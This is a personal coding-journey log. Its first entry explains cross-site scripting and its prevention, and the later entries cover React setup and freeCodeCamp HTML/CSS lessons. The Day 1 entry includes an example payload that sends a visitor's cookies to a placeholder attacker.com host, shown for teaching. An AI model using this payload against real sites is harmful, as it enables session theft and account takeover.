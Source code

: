 
# 100 Days of Coding - Log

## Start of Log

## Day 1 - July 24, 2019
**Subject:** Cross-Site Scripting
**Today's Progress:** I was able to understand the concept of Cross-Site Scripting (XSS), it's use and prevention.

**Thoughts:**
 XSS flaws occur whenever an applications includes untrusted data in a new web page without proper validation or escaping or updates a n existing web page w/ user supplied data using a browser api that can create Javascript.

It enables attackers to inject client-side scripts into web pages viewed by other users.

### What does XSS can do?
 - Malicious javascript can be used to do all sorts of malicious attacks because basically, it can access the api or anything that connects to the database. it also can affect the behavior of the page.
- it can be used to steal user cookies that allows the attacker to use the website pretendingto be that user that he stole.

### Example of injections to the `<input>` tags or in the URL:
	`><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>`.

or other HTML Tags like what i've tested `<i>` which transformed the remainder of the elements in the HTML Body into _Italic_.

### Preventions:
 - The preferred option is to properly escape untrusted data based on HTML context that the data will be placed into.
 - avoid passing untrusted data to Javascript and other browser APIs that can generate active content.
 
## 

## Day 2 - July 25, 2019

**Subject:** Javascript (ReactJS)

**Today's Progress:** I started creating my first react app with `npx create-react-app react-app` and created my own _index.js_ file.

**Thoughts:**

I Encountered a problem in running the `npm install -g create-react-app` and `npx create-react-app react-app` commands on my terminal so i had to surf on the web on how can i fix it. but luckily it was fixed by running the `sudo chown -r <path>` command.

  

I run my app with `npm start` on the terminal and prints _Hello World_

  

I put these lines of codes in my _index.js_ as a test for starting the app.

  

```
import React from 'react';
import ReactDOM from 'react-dom';

const App = () => {
return <div>Hello World</div>
};

ReactDOM.render(
<App />,
document.querySelector('#root')
);
```
<br>

|  import | React | from | 'react' |
|---------|-------|------|---------|
|gives me access to<br>codes from other files<br>or dependencies <br> that I will import.|The variable I want <br> to assign this import<br> to.| I'm about to specify<br>the name of the<br>library or file that I'm<br>importing from.|The name of the<br>dependency or <br> path to the file I<br>am importing.

###

`ReactDOM.render` takes the component and shows it on the screen.

##

## Day 3 - July 26, 2019

**Subject:** Basic HTML and HTML5

**Today's Progress:** I finished the first part of the Responsive Web Design Certification in [https://learn.freecodecamp.org/](https://learn.freecodecamp.org/) which is Basic HTML and HTML5.

![enter image description here](https://i.imgur.com/M3IzbHz.png)

##

## Day 4 - July 29, 2019

**Subject:** Basic CSS

**Today's Progress:** I continued working with the course on freecodecamp site and done with changing color text up to sizing images.
![enter image description here](https://i.imgur.com/62Mubc2.png)

##

## Day 5 - July 30, 2019
**Subject:** Basic CSS

**Today's Progress:** I continued working with the course on freecodecamp site and done with more than half of the topic. I've finished starting from Adding Borders around the Element up to Override styles in Subsequent CSS.

![enter image description here](https://i.imgur.com/s1dpdHM.png)


## Day 6 - July 31, 2019
**Subject:** Basic CSS

**Today's Progress:** I finished the course for the `Basic CSS` and tried to create variables that can be use all through the CSS file.

![enter image description here](https://i.imgur.com/eWT2INn.png)

## Day 7 - August 1, 2019
**Subject:** Applied Visual Design / CSS

**Today's Progress:** I started working with the `Applied Visual Design` Course in the freecodecamp site and had reviewed about some of the techniques in HTML and CSS.

![enter image description here](https://i.imgur.com/GtaJ0kV.png)
![enter image description here](https://i.imgur.com/GH339YD.png)

## Day 8 - August 2, 2019
**Subject:** Applied Visual Design / CSS

**Today's Progress:** I continued working with the `Applied Visual Design` Course and learned new things that I haven't use in my coding career. I mostly use the hex code `#` or the `rgba()` for color specifications but recently here in the codecamp, I learned about the `hsl()` for _Hue, Saturation and Lightness_ which will be a good help when I proceed with the designing for future projects. I also tried to create a graphic object by using css codes. I managed to had a _Moon_ output as a graphic object and tried to manipulate other `HTML ELEMENTS`.

![enter image description here](https://i.imgur.com/PeZMwuK.png)

## Day 9 - August 5, 2019
**Subject:** Applied Visual Design / CSS

**Today's Progress:** I continued working with the `Applied Visual Design` and finished the whole course. I tried to create complex shape and animation by keyframes using CSS.

![Here are the remaining exercises on the course](https://i.imgur.com/avT7H53.png)